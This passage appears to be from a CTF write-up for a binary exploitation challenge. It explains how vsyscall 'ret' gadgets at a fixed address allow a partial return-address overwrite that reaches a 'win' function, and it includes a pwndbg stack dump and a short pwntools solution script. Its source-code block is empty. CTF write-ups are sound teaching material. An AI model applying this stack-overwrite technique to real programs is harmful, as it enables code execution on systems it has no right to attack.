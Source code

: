 ```c
```

### Ideating our exploit strategy

Our goal is to call the `win` function, but it is non trivial to do so without knowing any LIBC or ELF address.

If we look at the stack at the point when we return from the `main` function, we can see that we are only able to achieve a partial overwrite on the libc address.

```sh
 ► 0x5637770f9281 <main+135>                      ret                                  <0x7fc5764f2d90; __libc_start_call_main+128>
──────────────────────────────────────────────────────────────────────────────────
pwndbg> tele $rsp # we can print the top of our stack
00:0000│ rsp 0x7ffcacd59d48 —▸ 0x7fc5764f2d90 (__libc_start_call_main+128) ◂— mov edi, eax
01:0008│     0x7ffcacd59d50 ◂— 0x0
02:0010│     0x7ffcacd59d58 —▸ 0x5637770f91fa (main) ◂— endbr64
```

In order to actually call the `win` function, we would want to do a partial overwrite of the `main` function to convert it to `win` and return there.

If we actually looked at the provdied Dockerfile, there is a hint given _(i did not notice this during the CTF...)_

```Dockerfile
# Docker host server's boot option setting:
# echo 'GRUB_CMDLINE_LINUX_DEFAULT="vsyscall=emulate"' >> /etc/default/grub
# reboot
```

The kernel is set to run with `vsyscall=emulate` configuration. If we do some research on this, we can find writeups like [this](https://nandynarwhals.org/hitbgsec2017-1000levels/#solving-the-pie-problem).

Essentially, there is a region of memory that is loaded at a fixed address called **vsyscall**. The purpose of this is to allow the kernel to run syscalls without leaving the userspace for efficiency purposes, by emulating some of the more commonly used syscalls such as `gettimeofday()` etc.

![vsyscall](vsyscall.png)

What this means for us is that we have a very useful `ret` gadget that we can use to fill the space between the stack until the `main` address and achieve our partial overwrite to call `win`.

### Solution

```py
from pwn import *
p = process("./prob")
p.send(b"A"*40 + p64(0xffffffffff600000)*2 + b"\xc9")
p.interactive()
```

## Reverse - Flag Checker
